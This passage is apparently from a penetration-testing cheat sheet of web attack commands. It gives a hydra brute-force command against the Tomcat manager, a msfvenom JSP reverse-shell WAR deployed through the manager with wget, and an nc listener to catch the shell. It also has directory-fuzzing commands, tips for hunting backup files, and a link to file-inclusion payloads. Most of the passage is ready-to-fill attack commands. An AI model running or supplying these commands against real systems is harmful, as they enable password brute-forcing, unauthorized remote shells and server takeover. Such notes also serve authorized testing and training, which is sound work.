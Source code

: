 #### Brute force 

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html
```

#### Tomcat panel RCE

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/text/deploy?war=file:shell.war&path=/shell' -O -

nc -lvp <PORT>
wget http://<IP>:8080/shell
```

### WebDav

```
davtest -url <URL>
```

### Spidering / Brute force directories/files

```
gospider -d <DEPTHS> --robots --sitemap -t <THREADS> -s <URL>

ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/FUZZ -e .php,.txt -t <THREADS>
dirbuster

Dictionaries :
   - /usr/share/wordlists/dirb/common.txt
   - /usr/share/wordlists/dirb/big.txt
   - /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

#### File backups

Once you have found all the files, look for backups of all the executable files ("*.php*", "*.aspx*"...). Common variations for naming a backup are 

```
file.ext~, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp and file.old
```

### Local File Inclusion / Remote File Inclusion - LFI / RFI

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
```
